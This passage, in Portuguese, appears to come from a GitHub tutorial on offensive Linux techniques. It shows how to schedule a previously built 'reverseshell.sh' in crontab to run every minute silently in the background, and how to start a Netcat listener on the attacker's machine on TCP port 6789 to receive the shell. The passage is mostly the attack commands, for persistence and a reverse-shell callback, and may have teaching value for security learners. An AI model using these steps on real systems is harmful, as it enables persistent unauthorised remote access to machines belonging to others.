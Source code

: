 Se você quer editar um crontab de outro usuário, você pode digitar `crontab -u username -e`. Tenha em mente que você só pode fazer isso como um **superusuário**. Isso significa que você precisa digitar `sudo su` antes de digitar o comando.

Quando você executar `crontab -e` no futuro, seu `crontab` editor de texto será exibido automaticamente. Uma vez no editor, você pode inserir sua programação com cada trabalho em uma nova linha. Caso contrário, você pode salvar e fechar o crontab por enquanto (`CTRL + O e ENTER` para salvar e `CTRL + X` para fechar, se tiver selecionado nano).

Agora vamos adicionar a seguinte linha ao crontab para executar o script shell que criamos anteriormente a cada minuto em segundo plano:

```zsh
* * * * * reverseshell.sh >/dev/null 2>&1 &
``` 

Para verificar se o cron job foi adicionado corretamente, mas não modificá-lo, pode-se usar o comando abaixo:

```zsh
crontab -l
``` 

<p align="center">
  <img src="Imagens/lista de agendamentos cron.png">
  <br>
  Figura 7: verificando Crontabs Criados
</p>

Verifique também o arquivo de log para garantir que o script está sendo executado conforme esperado, substitua o caminho do exemplo abaixo pelo caminho exato do log gerado quando criamos o script shell:

```zsh
tail -f /path/to/logfile.log
``` 

<p align="center">
  <img src="Imagens/logs do script shell.png">
  <br>
  Figura 7: Virificando Arquivo de Log do Script Criado
</p>

Após ter sido configurado com êxito a crontab, neste momento podemos na máquina atacante executar o listener, utilizando o NetCat, para escutar qualquer conexão atruibuída na porta TCP/6789 escolhida ppara nosso shell reverso:

```zsh
nc -nvlp 6789 
``` 

A partir disso, quando o cron executar nosso script, o shell reverso será conectado automaticamente na porta em escuta na máquina atacante:

<p align="center">